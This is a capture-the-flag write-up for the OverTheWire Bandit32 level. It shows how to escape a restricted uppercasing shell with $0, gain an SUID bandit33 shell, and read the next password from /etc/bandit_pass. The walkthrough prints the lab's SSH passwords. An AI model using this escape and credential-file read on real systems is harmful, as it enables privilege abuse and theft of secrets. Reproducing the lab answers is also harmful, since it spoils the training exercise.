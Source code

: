 # CTF Writeup - **OverTheWire Bandit32 - Bandit33**

**Author**: spiketyson  

---

## Challenge Details

- **Challenge Name:** Bandit32 - Bandit33
- **Category:** Linux
- **Difficulty Level:** Easy
- **Date:** 26-11-2024

---

## Summary

This challenge is the level32 for the Bandit series on OverTheWire, focusing on basic Linux command-line skills. After all this git stuff, it’s time for another escape. Good luck!
---

## Approach

Since this is an easy challenge, I planned to use basic Linux commands like `ls`, `sh`, `man` to explore the server and retrieve the flag.

---

## Solution Walkthrough

Connect to the server using the `ssh` command as below as:

```bash
ssh bandit32@bandit.labs.overthewire.org -p 2220 
# Password: 3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K
```

After loggin in, Lets explore the server to see what is there is it as shown below.

```bash
>> ls
# sh: 1: LS: Permission denied
>> ls -ld .
# sh: 1: LS: Permission denied
>> chmod +rx .
# sh: 1: CHMOD: Permission denied
```

It seems like it is converting every command that we are giving in the shell to UPPERCASE. Before proceeding we need to understand how shell works and how it is setup for any user. Linux has Variables called local variables (valid in current shell), shell variables (set up by shell) and environment variables (valid systemwide). The variable name are written in capital letter for example $HOME or $TERM or $USER. Lets try understanding what its trying to do. 

```bash
# whille(true) {
#   print(">> ");
#   cmd = makeUppercase(readInput());
#   print(execute("sh", "-c", cmd));
# }
```

The above code isn't valid in any language, just an example. The shell is trying to execute the above command for every command that we are giving as input. But from the terminal perspective it is trying the to execute the command and print it as shown below. Note here that the first argument for this command is sh so if we want to access this we can do it by using $0 as it is our first argument. Which will execute our first argument and print it. so if our shell is started by executing something similar we can also do the same by inputing `$0` to our current shell.

```bash
$ sh -c 'echo hi'
# hi
$ sh -c 'echo $0'
sh
>> $0
$ ls -la
# total 36
# drwxr-xr-x  2 root     root      4096 Sep 19 07:08 .
# drwxr-xr-x 70 root     root      4096 Sep 19 07:09 ..
# -rw-r--r--  1 root     root       220 Mar 31  2024 .bash_logout
# -rw-r--r--  1 root     root      3771 Mar 31  2024 .bashrc
# -rw-r--r--  1 root     root       807 Mar 31  2024 .profile
# -rwsr-x---  1 bandit33 bandit32 15136 Sep 19 07:08 uppershell
```

Now that we got access to the shell. We can notice the the upper shell was running as `bandit33`. This is interesting for us as it can only be run by `bandit33` user or a program which uses `SUID`. Lets check who is the current user by using `whoami`.

```bash
whoami
# bandit33
```
As we are already `bandit33` we can just get the password from the default location as we have the access to it as shown below.

```bash
cat /etc/bandit_pass/bandit33
# FLAG{tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0}
```

Lets try logging into `bandit33` using `ssh` and then lets explore the server using `ls` and then lets read the contents of the files present as shown below.

```bash
ssh bandit33@bandit.labs.overthewire.org -p 2220 
# Password: tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0
ls -la
# README.txt
cat README.txt
# Congratulations on solving the last level of this game!
# At this moment, there are no more levels to play in this game. However, we are constantly working
# on new levels and will most likely expand this game with more levels soon.
# Keep an eye out for an announcement on our usual communication channels!
# In the meantime, you could play some of our other wargames.
# If you have an idea for an awesome new level, please let us know!
```

---

## Flag

**Flag:**  tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0

---

## Lessons Learned
It was a good learning challenge where i understood how the shell works and how the variables are set in the shell and how we can execute commands using system arguments for a program. This is the last challenge for the current Bandit at this point of time. 